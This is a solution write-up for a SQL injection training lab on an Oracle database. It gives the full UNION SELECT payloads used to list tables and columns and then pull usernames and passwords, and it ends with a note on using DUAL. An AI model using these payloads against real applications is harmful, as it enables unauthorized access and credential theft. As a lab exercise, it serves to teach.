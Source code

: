 ## Description:

this lab contains a SQL injection vulnerability in the product category filter, it is possible to use a UNION attack to retrieve data from other tables

the application has a login function, the database contains a table that holds usernames and passwords, the name and columns of this table must be determined then retrieved 

to solve the lab log in as *administrator*

## Solution

1.\ listing all tables in the database with *all_tables*
 
	' UNION SELECT TABLE_NAME,NULL FROM all_tables--

the response tells that a table called 'USERS_AKZKLD' which is probably what we are looking for

2.\ querying the *all_tab_columns* table for the name of all columns in *USERS_AKZKLD* table

	' UNION SELECT COLUMN_NAME,NULL FROM all_tab_columns WHERE TABLE_NAME='USERS_AKZKLD'--

the response tells that the columns present are 'USERNAME_HALJVI' and 'PASSWORD_XSZTFM'

3.\ querying the 'USERS_AKZKLD' table for the 'USERNAME_HALJVI' and 'PASSWORD_XSZTFM' columns

	 ' UNION SELECT USERNAME_HALJVI,PASSWORD_XSZTFM FROM USERS_AKZKLD--

the query returns database credentials for the user administrator, carlos and wiener

## Note:

when determining how many columns are being returned in Oracle databases it is important to remember that 
on oracle databases, every **SELECT** statement must specify a table to select **FROM**, if the **UNION SELECT** attack does not query from a table it is still needed to include the **FROM** keyword followed by a valid table name

there is a built-in name for this purpose called **DUAL**

' UNION SELECT NULL,NULL FROM DUAL--
